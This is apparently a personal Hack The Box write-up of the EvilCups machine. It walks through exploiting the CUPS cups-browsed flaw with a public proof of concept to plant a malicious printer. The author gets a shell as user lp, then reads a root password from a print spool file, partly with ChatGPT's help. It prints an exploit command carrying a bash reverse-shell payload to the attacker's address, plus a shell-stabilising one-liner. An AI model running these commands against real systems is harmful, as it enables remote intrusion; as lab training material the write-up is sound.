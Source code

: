 Hey my name is Jack and this is my write up for the EvilCups machine on Hackthebox.

Machine IP: 10.10.11.40


Like usual I start with enumerating the network which shows that port 631 and port 22 open. Specifically port 631 is running Cups  CUPS 2.4.2. Ive already done my research on this vuln so im somewhat familiar and recognize that port 631 is cups-browsed. https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/#What-is-cups-browsed. This write up is very helpful.

Im gonna use Ippsecs POC to try to add a malicious printer. 
https://github.com/IppSec/evil-cups.git  

I also during my research find out that if i navigate to 
http://10.10.11.40:631/ I will get a webpage for Cups administration. So my workflow is basically gonna be. 1. Add Printer, 2. find a way to trigger this code being ran on website.

I look inside of the source code of the expliot and the syntax is pretty easy to understand
```
if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("%s <LOCAL_HOST> <TARGET_HOST> <COMMAND>" % sys.argv[0])
        quit()

```

so i send 

python3 evilcups.py 10.10.14.16 10.10.11.40 'bash -c "bash -i >& /dev/tcp/10.10.14.16/443 0>&1"'

After 30 seconds the printer appears 

Then i go onto the web page and select print test page which gives me a reverse shell as the user lp.



I stablize the shell with 
python3 -c 'import pty; pty.spawn("/bin/bash")'





I mess with Linpeas but dont really find anything interesting so I decide to look at the cups documentation and see that printed files are stored in /var/spool/cups. and I keep getting kicked out of my shell. 

I dont have view permissions for the /var/spool/cups directory so i cant list files in the directory, how I challenge this is by feeding all the documentation to chatgpt and it tells me that For example, if the print job ID is 1, the control file would be `/var/spool/cups/c00001`, and the data file might be `/var/spool/cups/d00001-001` (depending on the number of data files submitted with the job). so i do cat d00001-001 which returns alot of info so i feed it into chatgpt and ask if they see a password and find the password is Br3@k-G!@ss-r00t-evilcups.


ALSO IDK WHY BUT I KEEP GETTING KICKED OUT OF THIS BOX. *I think it has to do with the fact that printers are refreshed after a certain amount of time and so my malicious printer stops executing its reverse shell*

But with that password I ssh into root@evilcups and get root.txt

PWNED!

